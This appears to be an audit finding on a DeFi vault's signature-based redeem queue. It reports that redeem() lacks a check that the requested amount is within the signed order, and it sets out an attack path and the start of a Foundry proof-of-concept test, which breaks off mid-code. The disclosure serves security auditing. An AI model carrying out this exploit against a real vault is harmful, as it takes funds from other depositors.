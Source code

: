 ### External Pre-conditions
1. A user has to get signed ordered amount first and then calls `redeem()` with a `requested > ordered`.

### Attack Path
1. A user got a valid signed order for `1,000`.

2. And then modifies requested amount to `1,010` even though the signed ordered is `1000`.

3. And the user calls `redeem()` with valid signatures and redemption succeeds as long as vault has >= 1,010 in liquid assets.

### Impact
1. This vulnerability allows a user to redeem more assets than they are allowed to redeem, and inflating their authorized withdrawal by exploiting a missing requested validation.

2. And this leads to permanent imbalance in the vault, dilution of shares, and potential loss of funds for other users.

### PoC
The PoC below shows how a user got signed ordered of 1,000 and calls redeem with a `requested > ordered`, but the transaction fails due to InsufficientAsset in the vault.

If the vault has sufficientAsset, the user can redeem requested amount even though `requested > ordered`.

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.25;

import "../../Fixture.t.sol";
import "../../Imports.sol";
import "forge-std/console.sol";

contract SignatureRedeemQueueTest is FixtureTest {
    address vaultAdmin = vm.createWallet("vaultAdmin").addr;
    address vaultProxyAdmin = vm.createWallet("vaultProxyAdmin").addr;
    address user = vm.createWallet("user").addr;
    address asset;
    address[] assetsDefault;

    function setUp() external {
        asset = address(new MockERC20());
        assetsDefault.push(asset);
    }

    function testRedeem() external {
        Deployment memory deployment = createVault(vaultAdmin, vaultProxyAdmin, assetsDefault);

        uint256 signerPk = uint256(keccak256("signer"));
        address signer = vm.addr(signerPk);
        address[] memory signers = new address[](1);
        signers[0] = signer;
        (Consensus consensus,) = createConsensus(deployment, signers);
        SignatureRedeemQueue queue =
            SignatureRedeemQueue(addSignatureRedeemQueue(deployment, vaultProxyAdmin, asset, address(consensus)));

        uint256 amount = 1000;
        uint256 requested = 1000 + 10;

        ISignatureQueue.Order memory order = ISignatureQueue.Order({
            orderId: 1,
            queue: address(queue),
            asset: asset,
```
